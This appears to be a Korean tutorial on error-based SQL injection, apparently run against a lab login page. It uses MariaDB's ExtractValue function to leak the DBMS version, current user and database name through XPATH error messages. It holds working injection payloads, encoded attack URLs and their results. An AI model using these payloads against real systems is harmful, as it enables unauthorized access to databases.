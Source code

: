 # **ExtractValue**

ExtractValue함수의 인자 중 두번째 인자의 형식오류로 다양한 정보를 확인할 수 있다.

## **DBMS 버전 확인(ExtractValue)**

에러 메세지에 DBMS의 버전을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,VERSION()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CVERSION%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':10.3.34-MariaDB-0ubuntu0.20....'

## **DBMS 계정 확인**

에러 메세지에 DBMS 접속 계정을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,USER()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CUSER%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':root@localhost'

## **데이터베이스 이름 확인**

에러 메세지에 데이터베이스 이름을 출력하도록 유도해보자.

| data	| value	|
| :---	| :--- 	|
| ID	| ' AND ExtractValue(0,CONCAT(0x3a,DATABASE()))# |
| PW	| 아무 값(123) |
| URL	| http://192.168.0.58/index.php?userid=%27+AND+ExtractValue%280%2CCONCAT%280x3a%2CDATABASE%28%29%29%29%23&password=123 |

결과는 다음과 같다.

	Login Failed : XPATH syntax error: ':test'

## **테이블 이름 확인**
